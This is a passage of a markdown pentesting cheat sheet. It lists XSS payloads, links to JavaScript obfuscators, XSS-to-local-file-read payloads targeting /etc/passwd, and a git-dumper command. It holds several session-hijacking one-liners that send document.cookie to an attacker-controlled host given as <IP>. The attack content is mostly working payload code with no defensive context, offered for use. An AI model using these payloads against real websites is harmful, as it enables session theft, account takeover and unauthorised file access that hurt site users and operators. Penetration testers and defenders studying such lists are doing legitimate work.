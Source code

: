 - >

```
javascript:alert(1)

```

### JavaScript Encoding

- > jjencode

https://utf-8.jp/public/jjencode.html

-> aaencode

https://utf-8.jp/public/aaencode.html

-> jsfuck

http://www.jsfuck.com/

-> Xchars.js

https://syllab.fr/projets/experiments/xcharsjs/5chars.pipeline.html

### Decoder - Obfuscation (Javascript Decoder and PHP)

https://malwaredecoder.com/

### XSS to LFI

```
<img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>

```

### XSS - Session Hijacking

- > Examples

```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>

```

### Template - Nuclei

https://raw.githubusercontent.com/esetal/nuclei-bb-templates/master/xss-fuzz.yaml

## Git Exposed

```
git-dumper <http://site.com/.git> .

```
